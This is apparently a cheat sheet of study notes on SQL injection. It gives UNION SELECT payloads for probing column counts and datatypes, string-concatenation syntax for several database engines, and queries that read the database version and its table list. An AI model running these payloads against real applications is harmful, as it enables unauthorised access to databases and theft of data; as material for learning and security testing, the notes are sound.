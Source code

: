 More broadly can do: 
```
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```
Which will hopefully return some sort of error when the number of columns is incorrect. 

## Column Datatype
NULL will work with any datatype, then move the text through until an error isn't thrown. 
```
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```

## String Concat
If you only have one column to work with, can use string concatenation (syntax is host-dependent) to
get the info from multiple columns returned into one (with some separator to know which is which)

| host | syntax|
| ---- | ----- |
| Oracle | `'foo'\|\|'bar'` |
| Microsoft | `'foo'+'bar'` |
| PostgreSQL | `'foo'\|\|'bar'` |
| MySQL | `'foo' 'bar'` |
| MySQL | `CONCAT('foo', 'bar')` |

## DB Metadata
### Type and Version
Can use with UNION attack

| host | syntax|
| ---- | ----- |
| Oracle | `SELECT banner FROM v$version` |
| Oracle | `SELECT version FROM v$instance` |
| Microsoft | `SELECT @@version` |
| PostgreSQL | ` SELECT version()` |
| MySQL | `SELECT @@version` |

### DB Contents
#### Tables
| host | syntax|
| ---- | ----- |
| Oracle | `SELECT * FROM all_tables` |
| Microsoft | `SELECT * FROM information_schema.tables` |
| PostgreSQL | `SELECT * from information_schema.tables` |
| MySQL | `SELECT * from information_schema.tables` |
